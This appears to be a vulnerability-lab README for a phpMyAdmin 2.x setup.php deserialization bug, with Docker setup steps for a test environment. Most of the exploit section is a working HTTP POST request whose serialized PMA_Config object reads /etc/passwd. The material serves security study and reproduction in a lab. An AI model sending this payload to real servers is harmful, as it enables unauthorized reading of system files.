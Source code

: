 # Phpmyadmin Scripts/setup.php Deserialization Vulnerability (WooYun-2016-199433)

[中文版本(Chinese version)](README.zh-cn.md)

Affected version: 2.x

## Setup

Run the following command to start phpmyadmin:

```
docker-compose up -d
```

Visit `http://your-ip:8080` and you will see the phpmyadmin home page. Because there is no connection to the database, we will get an error. But this vulnerability is not related to the database, so just ignore.

## Expliot

Send the following package to read `/etc/passwd`:

```
POST /scripts/setup.php HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 80

action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}
```

![](1.png)